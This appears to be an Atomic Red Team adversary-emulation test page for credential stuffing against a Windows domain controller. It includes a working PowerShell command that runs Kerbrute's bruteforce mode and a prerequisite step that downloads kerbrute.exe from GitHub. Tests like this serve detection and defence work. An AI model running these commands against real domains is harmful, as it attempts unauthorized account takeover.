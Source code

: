 <br/>
<br/>

## Atomic Test #4 - Brute Force:Credential Stuffing using Kerbrute Tool

Will read username and password combos from a file or stdin (format username:password) and perform a bruteforce attack

**Supported Platforms:** Windows

**auto_generated_guid:** 4852c630-87a9-409b-bb5e-5dc12c9ebcde

#### Inputs:

| Name             | Description                              | Type   | Default Value      |
| ---------------- | ---------------------------------------- | ------ | ------------------ |
| domaincontroller | Domain controller where test will be run | string | $ENV:userdnsdomain |
| domain           | Domain where you will be testing         | string | $ENV:userdomain    |

#### Attack Commands: Run with `powershell`!

```powershell
cd "PathToAtomicsFolder\..\ExternalPayloads"
.\kerbrute.exe bruteforce --dc #{domaincontroller} -d #{domain} "PathToAtomicsFolder\..\ExternalPayloads\bruteforce.txt"
```

#### Dependencies: Run with `powershell`!

##### Description: kerbrute.exe must exist in PathToAtomicsFolder\..\ExternalPayloads

##### Check Prereq Commands:

```powershell
if (test-path "PathToAtomicsFolder\..\ExternalPayloads\kerbrute.exe"){exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
invoke-webrequest "https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_windows_386.exe" -outfile "PathToAtomicsFolder\..\ExternalPayloads\kerbrute.exe"
```

##### Description: bruteforce.txt must exist in PathToAtomicsFolder\..\ExternalPayloads

##### Check Prereq Commands:

```powershell
if (test-path "PathToAtomicsFolder\..\ExternalPayloads\bruteforce.txt"){exit 0} else {exit 1}
```
